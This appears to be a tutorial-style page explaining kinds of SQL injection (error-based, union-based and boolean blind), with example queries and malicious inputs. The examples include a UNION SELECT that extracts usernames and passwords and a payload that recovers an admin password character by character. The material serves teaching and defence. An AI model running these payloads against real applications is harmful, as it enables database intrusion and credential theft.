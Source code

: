 ## Types of SQL Injection

### 1. In-Band SQL Injection
Uses the same communication channel to launch the attack and gather results. This is the most common and straightforward type of SQL injection.

#### Error-Based SQL Injection
- Server throws database error messages
- Error messages reveal database structure and information
- Useful during development but should be disabled in production

**Example Attack:**
```sql
-- Original query
SELECT * FROM users WHERE id = '1'

-- Malicious input
1' AND (SELECT COUNT(*) FROM information_schema.tables)='

-- Resulting query (causes error)
SELECT * FROM users WHERE id = '1' AND (SELECT COUNT(*) FROM information_schema.tables)=''
```

#### Union-Based SQL Injection
Involves the **UNION** SQL operator to combine results from multiple queries.

**Example Attack:**
```sql
-- Original query
SELECT name, description FROM products WHERE id = '1'

-- Malicious input
1' UNION SELECT username, password FROM users--

-- Resulting query
SELECT name, description FROM products WHERE id = '1' UNION SELECT username, password FROM users--
```

### 2. Inferential SQL Injection (Blind SQL Injection)
No data is transferred via the application. Attacker sends payloads and observes the web application's response and behavior to infer information.

#### Boolean-Based Blind SQL Injection
Sends SQL queries that force the application to return different responses depending on whether the query returns TRUE or FALSE.

**Example Attack:**
```sql
-- Test if user 'admin' exists
1' AND (SELECT COUNT(*) FROM users WHERE username='admin')>0--

-- Extract password character by character
1' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='admin')='a'--
```
